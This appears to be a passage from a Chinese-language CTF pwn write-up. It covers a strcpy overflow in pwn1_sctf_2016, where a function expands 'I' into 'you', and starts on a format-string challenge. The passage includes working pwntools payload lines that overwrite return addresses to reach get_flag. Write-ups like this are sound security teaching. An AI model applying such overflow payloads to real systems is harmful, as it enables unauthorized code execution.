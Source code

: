 `payload = b'a'*0x38 + p32(0x80489a0) + p32(0x804e6a0) + p32(0x308CD64F) + p32(0x195719D1)`

## pwn1_sctf_2016

```c
  // vuln()
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  // ...
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
```

`IDA`可以看到`fgets`函数，危险的`strcpy`函数；但本题使用IDA会得到奇奇怪怪的代码，故使用gdb动态调试

```
stack 0xffffd214 —▸ 0x804b0ac (input) —▸ 0x80513dc ◂— 'IIIIII\n'
seg   0x8049257 <vuln+168>    call   replace                     <replace>
stack 0xffffd214 —▸ 0x804b0ac (input) —▸ 0x805151c ◂— 'youyouyouyouyouyou\n'
```

`replace`函数将输入字符串中的`"I"`替换为`"you"`，导致字符串变长进而可能在`strcpy`处溢出。

函数窗口中可见`get_flag`函数，地址为0x8048f0d

`s`距离`ebp`为0x3c字节，`ebp`为4字节，垃圾数据总量为 0x3c + 4 = 64字节，64 = 3*21+1

`payload = b'I'*21 + b'a' + p32(0x8048f0d)`

## [第五空间2019 决赛]PWN5

```c
int __cdecl main(int a1)
{
  //...
  char nptr[16]; // [esp+4h] [ebp-80h] BYREF
  char buf[100]; // [esp+14h] [ebp-70h] BYREF
  //...
  fd = open("/dev/urandom", 0);
  read(fd, &dword_804C044, 4u);
  printf("your name:");
  read(0, buf, 0x63u);
  printf("Hello,");
  printf(buf);
  printf("your passwd:");
  read(0, nptr, 0xFu);
  if ( atoi(nptr) == dword_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  // ...
}
```
